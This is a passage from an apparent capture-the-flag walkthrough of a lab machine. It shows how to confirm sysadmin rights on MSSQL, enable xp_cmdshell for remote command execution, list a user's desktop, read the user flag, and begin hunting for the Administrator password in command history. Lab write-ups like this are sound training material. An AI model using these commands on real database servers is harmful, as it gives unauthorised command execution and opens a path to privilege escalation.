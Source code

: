     SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
                  
    
    -----------   

              1     
	     
Since we have sysadmin privileges, we can enable **`xp_cmdshell`** that allows us to run commands and gain RCE on the host. For enabling xp_cmdshell:

    SQL> EXEC sp_configure 'Show Advanced Options', 1;
    SQL> reconfigure;
    SQL> sp_configure;
    SQL> EXEC sp_configure 'xp_cmdshell', 1
    SQL> reconfigure;
    SQL> xp_cmdshell "whoami"
    SQL> xp_cmdshell net localgroup administrators
    
By the last command, we can see that only "Administrator" is in the "administrators" group, so by sql_svc we don't have high privileges on the host.

Phase 2: Foothold
--
We can use **`xp_cmdshell`** to surf the several folders of the host where we can access. So, by xp_cmdshell, we got RCE. For example:

    SQL> xp_cmdshell dir C:\Users\sql_svc\Desktop
    output                                                                             
    
    --------------------------------------------------------------------------------   
    
     Volume in drive C has no label.                                                   
    
     Volume Serial Number is CE13-2325                                                 
    
    NULL                                                                               
    
     Directory of C:\Users\sql_svc\Desktop                                             
    
    NULL                                                                               
    
    01/20/2020  06:42 AM    <DIR>          .                                           
    
    01/20/2020  06:42 AM    <DIR>          ..                                          
    
    02/25/2020  07:37 AM                32 user.txt                                    
    
                   1 File(s)             32 bytes                                      
    
                   2 Dir(s)  33,834,606,592 bytes free                                 

We note a file .txt that we can access in the following manner:

    SQL> xp_cmdshell more C:\Users\sql_svc\Desktop\user.txt                                                                            
    
And we get the first flag.

The second flag must be caught for proving that we pown the host, so we need to escalate to Administrator privilege.

For doing this, for first we must find where could be the password of Administrator. Usually, you could find it on the command history of command line tools, for example:
